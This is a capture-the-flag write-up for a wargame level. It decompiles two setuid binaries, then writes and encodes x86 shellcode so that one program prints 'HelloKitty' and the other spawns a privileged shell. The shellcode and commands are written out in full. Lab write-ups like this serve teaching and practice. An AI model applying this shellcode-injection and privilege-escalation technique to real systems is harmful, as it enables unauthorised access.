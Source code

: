 We have in this challenge two executables, `behemoth6` and `behemoht6_reader`. 
As seen in the decompiled main() of `behemoth6`, it opens `behemoth6_reader` as a pipe:
```c
__stream = popen("/behemoth/behemoth6_reader","r");
```
Checks if the pipe was created succesfully:
```c
if (__stream == (FILE *)0x0) {
puts("Failed to create pipe.");
                /* WARNING: Subroutine does not return */
exit(0);
}
```
Gets a string from the pipe to allocated space on the heap and closes the pipe:
```c
__s1 = (char *)malloc(10);
fread(__s1,10,1,__stream);
pclose(__stream);
```
Then compares it to `HelloKitty`:
```c
iVar1 = strcmp(__s1,"HelloKitty");
```
If it does equal we get a shell, otherwise an error:
```c
if (iVar1 == 0) {
puts("Correct.");
__euid = geteuid();
__ruid = geteuid();
setreuid(__ruid,__euid);
execl("/bin/sh","sh",0);
}
else {
puts("Incorrect output.");
}
```


So, to get a shell we need to make `behemoht6_reader` print `HelloKitty` to stdout.
Let's see `behemoht6_reader`'s code.
in the decompiled main function, if first tries to open a file named `shellcode.txt`.
```c
__stream = fopen("shellcode.txt","r");
if (__stream == (FILE *)0x0) {
puts("Couldn\'t open shellcode.txt!");
}
```
If it did open it succesfully, it executes its contens, so it's obviously a shellcode (also from the obvious name):
```c
else {
fseek(__stream,0,2);
__size = ftell(__stream);
rewind(__stream);
__ptr = (code *)malloc(__size);
fread(__ptr,__size,1,__stream);
fclose(__stream);
for (local_14 = 0; local_14 < (int)__size; local_14 = local_14 + 1) {
    if (__ptr[local_14] == (code)0xb) {
    puts("Write your own shellcode.");
                /* WARNING: Subroutine does not return */
    exit(1);
    }
}
(*__ptr)();
}
```
So, to get a shell we need to make `behemoht6_reader` print `HelloKitty` to stdout right? And we can run a shellcode on `behemoht6_reader`, so lets just write a simple shellcode that prints `HelloKitty` to stdout, which will be picked by `behemoth6`.
The assembly code for the shellcode is:
```asm
; 32 bit calling convention: https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit
sub esp, 32 ; Allocate space on the stack
push 0 ; push the NULL byte of the "HelloKitty" string
; push "HelloKitty" in reversed and little endian order
push 0x7974 
push 0x74694B6F
push 0x6C6C6548
mov eax, 4 ; syscall number for write(3)
mov ebx, 1 ; stdout file descriptor
mov ecx, esp ; the stuck houses the "HelloKitty" string
mov edx, 10 ; "HelloKitty" is 10 bytes long
; zero out the rest of the relevent registers to make sure they don't interfere
xor esi, esi 
xor edi, edi
xor ebp, ebp
int 0x80 ; syscall 
```
Now, to make `shellcode.txt` with our shellcode we need to compile it to a string we can have in the `shellcode.txt` file, we can do that with this site: https://defuse.ca/online-x86-assembler.htm#disassembly.
To make `behemoth6_reader` run our shellcode we need to simply run a few shell commands:
```sh
mkdir /tmp/6 # create a new directory in which we can write out shellcode.txt file
printf "\x83\xEC\x20\x6A\x00\x68\x74\x79\x00\x00\x68\x6F\x4B\x69\x74\x68\x48\x65\x6C\x6C\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\x89\xE1\xBA\x0A\x00\x00\x00\x31\xF6\x31\xFF\x31\xED\xCD\x80" > shellcode.txt # print the compiled shellcode into shellcode.txt
/behemoth/behemoth6 # run behemoth6 and get a shell!
```